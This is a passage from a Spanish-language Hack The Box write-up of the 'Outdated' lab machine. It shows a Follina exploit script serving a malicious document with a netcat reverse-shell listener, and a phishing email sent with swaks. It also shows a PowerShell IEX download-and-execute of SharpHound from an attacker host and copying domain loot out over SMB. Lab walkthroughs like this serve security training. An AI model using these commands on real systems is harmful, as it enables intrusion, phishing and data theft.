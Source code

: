 Ejecutamos el script:

```bash
kali@kali:~/Documents/HTB/Outdated/msdt-follina$ python3 follina.py --interface tun0 --port 80 --reverse 443
[+] copied staging doc /tmp/wt3ylf2c
[+] created maldoc ./follina.doc
[+] serving html payload on :80
[+] starting 'nc -lvnp 443' 
listening on [any] 443 ...
```

Enviamos un correo electrónico con el enlace malicioso:

```bash
kali@kali:~/Documents/HTB/Outdated/msdt-follina$ swaks --to itsupport@outdated.htb --from marmeus@marmeus.com --server mail.outdated.htb --body "http://<ATTACKER_IP>/"
```

Obtenemos una shell reversa como el usuario `btables`.

## Escalada de Privilegios

### Enumeración con SharpHound

Utilizamos SharpHound para recopilar datos del dominio:

```powershell
C:\Users\btables\AppData\Local\Temp\SDIAG_20ab2273-6de8-4357-963b-cf3b570e74af> powershell -exec bypass -c "IEX(New-Object Net.WebClient).downloadString('http://<ATTACKER_IP>:8080/SharpHound.ps1'); Invoke-Bloodhound -CollectionMethod All -ZipFileName loot.zip"
```

Configuramos un servidor SMB para transferir archivos:

```bash
kali@kali:~/Documents/HTB/Outdated$ smbserver.py -smb2support a .
```

Copiamos los datos recopilados:

```cmd
C:\Users\btables\AppData\Local\Temp\SDIAG_20ab2273-6de8-4357-963b-cf3b570e74af> copy 20220912201007_loot.zip \\10.10.14.130\a\
```

### Análisis con BloodHound

Usando BloodHound con la opción pathfinding, encontramos una ruta que nos permite convertirnos en el usuario "sflowers":
